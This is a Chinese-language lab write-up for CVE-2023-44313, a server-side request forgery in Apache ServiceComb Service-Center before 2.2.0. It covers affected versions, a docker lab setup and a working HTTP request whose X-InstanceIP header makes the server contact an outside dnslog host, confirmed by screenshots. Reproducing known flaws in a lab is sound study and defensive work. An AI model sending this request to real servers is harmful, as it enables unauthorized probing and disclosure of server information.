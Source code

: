 # CVE-2023-44313 Apache ServiceComb Service-Center SSRF

Apache ServiceComb Service-Center是一个开源的服务注册与发现中心，属于Apache ServiceComb基金会下的一个子项目。它旨在为微服务架构提供服务注册、发现和管理功能，帮助开发人员构建和维护分布式系统中的服务治理。

Apache ServiceComb 服务中心中的服务器端请求伪造 (SSRF) 漏洞。攻击者可以通过特制的请求获取敏感服务器信息。该问题影响Apache ServiceComb 2.1.0（含）之前版本。建议用户升级到2.2.0版本，该版本已修复该问题。

影响范围

Apache ServiceComb Service-Center < 2.2.0

安全版本

Apache ServiceComb Service-Center 2.2.0

项目下载地址https://github.com/apache/servicecomb-service-center/tree/a0e09e1f70e818d0bbc13f43238a876279808049

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-44313
- https://blog.csdn.net/shelter1234567/article/details/136259675



## 漏洞环境

执行如下命令启动一个Apache ServiceComb 2.1.0服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:30103`即可查看到Apache ServiceComb主页。

## 漏洞复现

```
GET /testSchema/ HTTP/1.1
Host: 192.168.116.128:30103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
X-InstanceIP: sr0xs4.dnslog.cn
Connection: close
```

![](https://img-blog.csdnimg.cn/direct/817c1a37ae4042f28930da1314fb7800.png)

查看dnslog

![](https://img-blog.csdnimg.cn/direct/1718429071e1410a888d8aae505a74d0.png)
